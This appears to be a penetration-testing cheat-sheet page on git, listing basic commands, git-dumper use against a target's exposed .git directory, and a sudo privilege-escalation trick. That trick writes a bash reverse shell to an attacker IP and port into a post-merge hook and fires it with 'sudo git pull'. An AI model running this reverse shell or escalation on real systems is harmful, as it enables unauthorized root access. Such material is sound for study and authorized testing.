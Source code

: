 ```yaml
---
title: "git"
date: 2024-6-28
tags: ["git", "git-dumper", "sudo", "privesc"]
---
```


### Basic Commands

<div>

```console
# Show status
git status
```

```console
# Reset the current branch to a previous commit
git reset --hard
```

```console
# Show information about files
git ls-files --stage
```

```console
# Show current branch
git branch
```

```console
# Show commits
git log <BRANCH_NAME> --oneline
```

```console
# Show diff, a and b are commit hash
# a is the older commit
git diff <A_COMMIT_HASH> <B_COMMIT_HASH>
```

```console
# Show commit
git show <COMMIT_HASH>
```

</div>

<br>

---

### Git Tools

{{< tab set1 tab1 active >}}git-dumper{{< /tab >}}
{{< tab set1 tab2 >}}git-bundle{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
git-dumper <TARGET>/.git result/
```

</div>

<small>*Ref: [Download git-dumper](https://github.com/arthaud/git-dumper)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```console
# List all bundles
find . -type f -exec file {} \;
```

```console
# Get bundle
git clone -b master @hashed/ab/cd/<HASH>.bundle
```

</div>

{{< /tabcontent >}}

<br>

---

### SUDO

<div>

```console
# Copy target project
cp -r /var/www/html/project .
```

```console
# Create a malicious post-merge
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/<LOCAL_IP>/<LOCAL_PORT> 0>&1' > ./project/.git/hooks/post-merge
```

```console
# Run
sudo /usr/bin/git pull
```

</div>

<small>*Note: Make changes to the project to make the pull work*</small>

<br>